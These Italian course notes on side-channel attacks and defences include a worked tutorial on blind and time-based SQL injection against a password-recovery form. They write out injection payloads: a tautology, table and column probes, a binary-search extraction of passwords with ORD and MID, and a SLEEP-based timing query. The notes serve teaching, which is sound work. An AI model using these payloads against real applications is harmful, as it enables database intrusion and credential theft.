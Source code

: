 ﻿# Side channels

È comune che i software abbiano dei **side effect**, cioè degli effetti osservabili che riflettono lo stato interno del programma. Se i side effect dipendono da un valore segreto si ha un **leak parziale**, se tale leak è sufficiente per scoprire il segreto allora abbiamo un attacco.

Un esempio può essere il controllo di una password: ad ogni tentativo l’attaccante scopre che una determinata password è sbagliata. Questo è un leak parziale, infatti l’attaccante può tentare un attacco **brute force**. Per difendersi si può limitare il numero di tentativi.

## Side channels

I **side channels** (o **canali laterali**) nella sicurezza informatica sono metodi per estrarre informazioni sensibili da un sistema, sfruttando i side effect e caratteristiche fisiche anziché attacchi diretti sui dati o sugli algoritmi.

### Esempi di side channels:

- **Attacco alla cache (*Cache attack*)**: un attacco in cui l’attaccante monitora gli accessi alla memoria cache in un sistema che utilizza risorse condivise, come in un ambiente virtualizzato o in certi servizi in cloud
- **Attacco a cronometro (*Timing attack*)**: un attacco che si basa sulla misura dei tempi di esecuzione di certi calcoli, ad esempio il confronto dei tempi di criptazione della password ignota con i tempi di criptazione di password note
- **Attacco di monitoraggio dei consumi (*Power-monitoring attack*)**: attacchi che analizzano il consumo di energia del sistema da violare, per capirne le caratteristiche
- **Attacco elettromagnetico (*Electromagnetic attack*)**: attacchi basati sul rilevamento dell'energia elettromagnetica irraggiata, che possono rivelare direttamente dati e altre informazioni
- **Analisi differenziale dei malfunzionamenti (*Differential fault analysis*)**: si deducono informazioni sul sistema analizzando malfunzionamenti provocati appositamente

Ad esempio in un login quando username o password sono errati è raccomandato restituire un generico “credenziali errate” al posto di specificare quale dei due è errato (in quanto potrebbe aiutare un attaccante).

Un altro esempio è di utilizzare codice ***time-safe***: il controllo di una password è più lento di un controllo di un username (a causa dell’hashing per esempio), questo può essere notato da un attaccante e dedurre quale delle due credenziali è errata. Funzioni time-safe impiegano lo stesso tempo indipendentemente dai dati su cui operano.

## Blind SQL injection

La **Blind SQL injection** è una tecnica di attacco che sfrutta i side channel per ottenere informazioni da un database.

Si utilizza solitamente quando il risultato di una query non viene visualizzato direttamente sulla pagina web, ma l'applicazione fornisce comunque un feedback osservabile che dipende dallo stato interno del database, come un messaggio particolare, un errore, una pagina rotta, una pagina vuota, ...

Possiamo pensare quindi di ottenere una risposta boolena, e iterando questa tecnica si riesce ad leakare dati sensibili.

### Funzionamento generale

1. **Iniezione della query**: l'attaccante inietta codice SQL malevolo nell'input di un'applicazione web.
2. **Osservazione del side channel**: l'attaccante osserva il comportamento dell'applicazione, cercando differenze nel tempo di risposta, nei messaggi di errore, o altri comportamenti che possono rivelare informazioni sul database.
3. **Deduzione dei dati**: l'attaccante deduce i dati del database in base al feedback ottenuto. Questo processo può essere iterato per ottenere gradualmente le informazioni desiderate.

### **Esempio:**

Supponiamo un servizio di recupero password che invia un'email con una nuova password agli utenti registrati nel sistema.

Se l'utente esiste, l'email viene inviata, altrimenti viene visualizzato un messaggio di errore.

Questo scenario può essere vulnerabile ad una blind SQL injection se l'attaccante può manipolare la query che controlla l'esistenza dell'utente nel database.

Supponiamo che la query per controllare l’esistenza dell’utente sia del tipo:

`SELECT 1 FROM ... WHERE ... email='EMAIL’`

dove `EMAIL` è un input utente.

- L'attaccante può modificare il comportamento della query, ad esempio aggiungendo una condizione che è sempre vera (come `'OR 1 #`).
- Se l'applicazione invia comunque l'email (non viene restituito un errore), significa che il database è vulnerabile a SQL injection.
- A questo punto l’attaccante fa una injection e compone una query di questo tipo con lo scopo di ottenere il nome delle tabelle dal database andando a tentativi:
    
    ```sql
     SELECT 1
     FROM people
     WHERE mail='' OR (SELECT 1 FROM users LIMIT 1)=1 LIMIT 1;
    ```
    
    In questo modo se viene inviata la mail di recupero scopriamo che la tabella `users` esiste, altrimenti possiamo pensare che la tabella non esista.
    
- L’attaccante può adesso può controllare l’esistenza di una particolare colonna, tramite la funzione SQL `MID`. Tale funzione prende tre parametri `MID(string, start_pos, len)` e restituisce una sottostringa di `string` di lunghezza `len` partendo dalla posizione `start_pos` (nota che gli indici in SQL partono da 1).
    
    Verrà composta la seguente query per controllare l’esistenza della colonna `password`:
    
    ```sql
    SELECT 1
    FROM people
    WHERE mail=' ' OR (SELECT MID(password,1,0) FROM people LIMIT 1)='' #
    ```
    
    se password non esiste la query darà errore, altrimenti darà successo in quanto stiamo prendendo una sottostringa di lunghezza zero uguale quindi a `''`.
    
- A questo punto l'attaccante può fare la query carattere per carattere fino a scoprire la password completa.
    
    Si può fare una ricerca binaria per ridurre il numero di tentativi:
    
    la funzione `ORD` restituisce il codice ASCII del caratteri più a sinistra della stringa che prende in input
    
    ```sql
    SELECT 1
    FROM people
    WHERE mail=' ' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('m') #
    					 > FALSE
    SELECT 1
    FROM people
    WHERE mail=' ' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('t') #
    					 > FALSE
    SELECT 1
    FROM people
    WHERE mail=' ' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('w') #
    					 > FALSE
    SELECT 1
    FROM people
    WHERE mail=' ' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('y') #
    					 > TRUE
    SELECT 1
    FROM people
    WHERE mail=' ' OR (SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('x') #
    					 > TRUE
    ```
    
    ![https://i.ibb.co/X2yDcTk/image.png](https://i.ibb.co/X2yDcTk/image.png)
    

## Totally blind SQL injection

Anche in caso in cui la web application non mostra errori, messaggi particolari, o altri feedback visibili che possono portare a leak parziali, è comunque possibile per l’attaccante sfruttare il **tempo** per fare SQL injection, pratica chiamata *Totally Blind SQL Injection.*

Sempre nella situazione precedente l’attaccante può fare una cosa del tipo:

```sql
SELECT 1
FROM people
WHERE mail='' OR (SELECT
		IF((SELECT ORD(MID(password,1,1)) FROM people LIMIT 0,1)<=ORD('m'), 
       SLEEP(1),
       NULL)
   ) #
```

la sintassi dell’`IF` è la seguente `IF(*condition*, *value_if_true*, *value_if_false*)`.

Cioè quando la query ha successo viene fatto uno sleep di un secondo che può essere notato dall’attaccante per capire il successo o meno della query.
